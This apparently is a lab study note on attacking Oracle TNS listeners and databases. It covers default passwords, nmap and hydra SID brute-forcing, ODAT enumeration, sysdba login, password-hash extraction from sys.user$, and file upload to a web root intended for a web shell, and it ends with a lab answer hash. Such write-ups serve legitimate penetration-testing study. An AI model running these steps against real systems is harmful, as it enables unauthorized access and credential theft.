 - Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks
- supports IPX/SPX and TCP/IP protocols

### Default Configuration

- listens for incoming connections on the TCP/1521
- By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g
- listener will only accept connections from authorized hosts and perform basic authentication using a combination of hostnames, IP addresses, and usernames and passwords
- listener will use Oracle Net Services to encrypt the communication between the client and the server.
- configuration files are tnsnames.ora and listener.ora and are located in the ORACLE_HOME/network/admin directories
- Oracle 9 has a default password **CHANGE_ON_INSTALL**
- Oracle 10 has no default password set
- Oracle DBSNMP service also uses a default password, **dbsnmp**
- many organizations still use the finger service together with Oracle
- Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service
- listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance
- Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution


### Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

Below is a script to download the tool and it-s dependencies

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

System Identifier, **SIDs**, are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


**NMAP**
```
sudo nmap -p1521 -sV 10.129.205.19 --open
```

**NMAP - SID Bruteforcing**
```
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
```


**Use odat.py to enumerate the oracle db**
```
./odat.py all -s 10.129.205.19
```

Credentials found - scott:tiger

**Use sqlplus to connect to Oracle db**
```
sqlplus scott/tiger@10.129.205.19/XE;
```

If you come across the following error...
```
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
```

...execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

**Oracle RDBMS Interaction**
```
select table_name from all_tables;
```

[Database SQL Language Quick Reference](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985)


**ORACLE RDBMS Enumeration - Logging in as Sys Admin**

```
sqlplus scott/tiger@10.129.205.19/XE as sysdba
```

**Enumerate the Database**
```
select * from user_role_privs;
```

**Extracting Password Hashes**
```
select name, password from sys.user$;
```

#### Oracle RDBMS - File Upload 

The above can be done via uploading a web shell to the target. However you must know the exact location of the root directory for the web server. In Linux it is /var/www/html and Windows C:\inetpub\wwwroot.


```
echo "Oracle File Upload Test" > testing.txt
```
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Use curl to verify the file upload worked**
```
curl -X GET http://10.129.204.235/testing.txt
```
### Questions

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```
E066D214D5421CCC
```

Nmap
![[nmap_oracle_tns.png]]

Perform a variety of scans to enumerate and gather information about the Oracle database services and its components. Those scans can retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations, etc. 

Using the 'all' option on the odat.py tool will run all the scans described above
```
./odat.py all -s 10.129.205.19
```

Results from the above run odat. Three accounts were discovered, but were all locked, so could not get the passwords

**Usernames**
```
ctxsys
```
```
dbsnmp
```
```
dip
```

Service Name: XE

Credentials Found
```
scott:tiger
```
![[scott_tiger.png]]
Simply wordlist does not work
![[Pasted image 20230813045715.png]]

Found 4 legit SIDS
```
sudo hydra -L /usr/share/wordlists/sids-oracle.txt -t 32 -s 1521 10.129.205.19 oracle-sid
```

![[Pasted image 20230813061046.png]]

Running the following attack, but getting "Unknown service: oracle"
![[Pasted image 20230816230407.png]]

NSE oracle-sid-brute script
```
sudo nmap -p1521 -sV 10.129.45.163 --open --script oracle-sid-brute -Pn
```

![[Pasted image 20230816230543.png]]

Install sqlplus, following the instructions in the below links:
https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

[book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation)

https://lisandre.com/archives/2164



